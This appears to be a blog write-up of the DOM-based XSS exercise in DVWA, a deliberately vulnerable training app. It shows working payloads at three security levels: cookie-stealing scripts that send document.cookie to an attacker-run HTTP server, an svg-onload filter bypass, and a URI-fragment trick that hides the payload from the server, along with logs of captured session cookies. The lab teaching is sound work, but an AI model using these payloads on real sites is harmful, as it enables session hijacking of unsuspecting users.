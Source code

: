 ```yaml
---
title: DVWA - XSS (DOM)
date: 2023-12-16
categories: [DVWA]
tags: [dvwa, xss, xss-dom, cross-site-scripting, burp, javascript]
img_path: /assets/dvwa/xss_dom
published: true
---
```


## Information

- [How to install dvwa on Kali](https://www.kali.org/tools/dvwa/).
- [Official GitHub repository](https://github.com/digininja/DVWA).

> The DVWA server itself contains instructions about almost everything.

_**Damn Vulnerable Web Application (DVWA)** is a PHP/MySQL web application that is damn vulnerable. Its main goal is to be an aid for security professionals to test their skills and tools in a legal environment, help web developers better understand the processes of securing web applications and to aid both students & teachers to learn about web application security in a controlled class room environment._

_The aim of DVWA is to practice some of the most common web vulnerabilities, with various levels of difficultly, with a simple straightforward interface._

![](dvwa_home.png){: width='70%' }

The DVWA server has **4 different security levels** which can be set as seen below:

![](security_levels.png){: width='70%' }

- **Low**: This security level is completely vulnerable and has no security measures at all. It's use is to be as an example of how web application vulnerabilities manifest through bad coding practices and to serve as a platform to teach or learn basic exploitation techniques.
- **Medium**: This setting is mainly to give an example to the user of bad security practices, where the developer has tried but failed to secure an application. It also acts as a challenge to users to refine their exploitation techniques.
- **High**: This option is an extension to the medium difficulty, with a mixture of harder or alternative bad practices to attempt to secure the code. The vulnerability may not allow the same extent of the exploitation, similar in various Capture The Flags (CTFs) competitions.
- **Impossible**: This level should be secure against all vulnerabilities. It is used to compare the vulnerable source code to the secure source code.

## XSS (DOM)

**Cross-Site Scripting (XSS)** attacks are a type of injection problem, in which malicious scripts are injected into the otherwise benign and trusted web sites. XSS attacks occur when an attacker uses a web application to send malicious code, generally in the form of a browser side script, to a different end user. Flaws that allow these attacks to succeed are quite widespread and occur anywhere a web application using input from a user in the output, without validating or encoding it.

**An attacker can use XSS to send a malicious script to an unsuspecting user**. The end user's browser has no way to know that the script should not be trusted, and will execute the JavaScript. Because it thinks the script came from a trusted source, the malicious script can access any cookies, session tokens, or other sensitive information retained by your browser and used with that site. These scripts can even rewrite the content of the HTML page.

**Document Object Model (DOM) Based XSS** is a special case of reflected where the **JavaScript is hidden in the URL** and pulled out by JavaScript in the page while it is rendering rather than being embedded in the page when it is served. This can make it stealthier than other attacks and WAFs or other protections which are reading the page body do not see any malicious content.

![](https://miro.medium.com/v2/resize:fit:786/1*yuRkBR6YroYLCGpka9KdRA.png){: width='70%' }

**Objective**: Run your own JavaScript in another user's browser, use this to steal the cookie of a logged in user.

## Security: Low
> _Low level will not check the requested input, before including it to be used in the output text ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_dom/xss_dom_low_source.php))._

1. We can see that there is the URL parameter `default`:

    ![](url_param.png)

2. We can check if a XSS vulnerability exists by passing a very simple payload:

    ```javascript
    <script>alert(document.cookie)</script>
    ```

    ![](xss_test.png)


3. Our goal is to get our target's cookie value, so we will have to use a payload that grabs his cookie but also send it to us. Let's start by launch a Python3 HTTP server:

    ```shell
    $ python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
    ```

4. Then we can pass the following payload, for example, by using social engineering techniques, which grabs the cookie, `document.cookie`, and sends it to our HTTP server, `window.location='http://127.0.0.1:8080/?cookie='`:

    ```javascript
    <script>window.location='http://127.0.0.1:8080/?cookie=' + document.cookie</script>
    ```

    ![](low_payload.png)

5. If we check back on our HTTP server, we will have received the victim's cookie:

    ```shell
    $ python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
    127.0.0.1 - - [16/Dec/2023 18:46:37] "GET /?cookie=security=low;%20PHPSESSID=fejtgct45j1cmkcedvieacnai5 HTTP/1.1" 200 -
    ```

## Security: Medium
> _The developer has tried to add a simple pattern matching to remove any references to `"<script"` to disable any JavaScript. Find a way to run JavaScript without using the script tags ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_dom/xss_dom_medium_source.php))._

1. This time the developer replaces the `<script` tag with `?default=English`, so the previous payload won't work. There is a handy [XSS Payload List](https://github.com/1N3/IntruderPayloads/blob/master/FuzzLists/xss_payloads_quick.txt) on GitHub, so we can choose any other form of payload which does not include the blacklisted tag. Let's try one:

    ```javascript
    <svg/onload=alert(1)>
    ```

    ![](medium_payload_fail.png)

2. The payload does not get replaced, but it does seem to work either. If we take a look at the page's source code, we will see a `select` statement, and if we escape that by modifying a bit our payload, it will work:

    ![](medium_page_source.png)

    ```javascript
    </select><svg/onload=alert(1)>
    ```

    ![](medium_payload.png)

3. We can use the same process as before to steal our target's cookie:

    ```javascript
    </select><svg/onload=window.location='http://127.0.0.1:8080/?cookie='+document.cookie>
    ```

    ![](medium_payload_cookie.png)

    ```shell
    $ python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
    127.0.0.1 - - [16/Dec/2023 20:49:43] "GET /?cookie=PHPSESSID=fejtgct45j1cmkcedvieacnai5;%20security=medium HTTP/1.1" 200
    ```

## Security: High
> _The developer is now white listing only the allowed languages, you must find a way to run your code without it going to the server ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_dom/xss_dom_high_source.php))._

1. On this level, the developer has a whitelist allowing only a set of predefined languages; anything else is replaced with `?default=English`. What happens here is that when we sent the GET request that has our payload, it gets redirected to a new GET request with `?default=English`:

    ```javascript
    127.0.0.1:42001/vulnerabilities/xss_d/?default=<script>alert(document.cookie)</script>
    ```

    ![](high_first_request.png)

    ![](high_second_request.png)

2. Reading OWASP's page for [DOM Based XSS](https://owasp.org/www-community/attacks/DOM_Based_XSS), on the *Advanced Techniques and Derivatives* section, we find this:

    _The DOM Based XSS paper details a technique to avoid server side detection. It also describes several other possible locations for the payload, besides `document.location`. The technique to avoid sending the payload to the server hinges on the fact that **URI fragments (the part in the URI after the “#”) is not sent to the server by the browser**. Thus, any client side code that references, say, `document.location`, may be vulnerable to an attack which uses fragments, and in such case the payload is never sent to the server. For example, the above DOM based XSS can be modified into:_

    ```javascript
    http://www.some.site/page.html#default=<script>alert(document.cookie)</script>
    ```

    _which mounts the same attack without it being seen by the server (which will simply see a request for page.html without any URL parameters)._

2. Let's try that to see if it works:

    ```javascript
    127.0.0.1:42001/vulnerabilities/xss_d#default=<script>alert(document.cookie)</script>
    ```

    ![](high_test.png)

3. Let's use the exact same payload as the one used at the low level and get the cookie:

    ```shell
    $ python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
    ```

    ```javascript
    127.0.0.1:42001/vulnerabilities/xss_d#default=<script>window.location='http://127.0.0.1:8080/?cookie=' + document.cookie</script>
    ```

    ![](high_payload.png)

    ```shell
    $ python3 -m http.server 8080
    Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...
    127.0.0.1 - - [16/Dec/2023 20:14:15] "GET /?cookie=security=high;%20PHPSESSID=fejtgct45j1cmkcedvieacnai5 HTTP/1.1" 200 -
    ```

## Security: Impossible
> _The contents taken from the URL are encoded by default by most browsers which prevents any injected JavaScript from being executed ([Source code](https://github.com/CSpanias/cspanias.github.io/blob/main/assets/dvwa/xss_dom/xss_dom_impossible_source.php))._

## Resources

- Cryptocat's [video walkthrough](https://www.youtube.com/watch?v=X87Ubv-qDm4).
- OWASP's [DOM Based XSS](https://owasp.org/www-community/attacks/DOM_Based_XSS).
- GitHub's [XSS Payload List](https://github.com/1N3/IntruderPayloads/blob/master/FuzzLists/xss_payloads_quick.txt).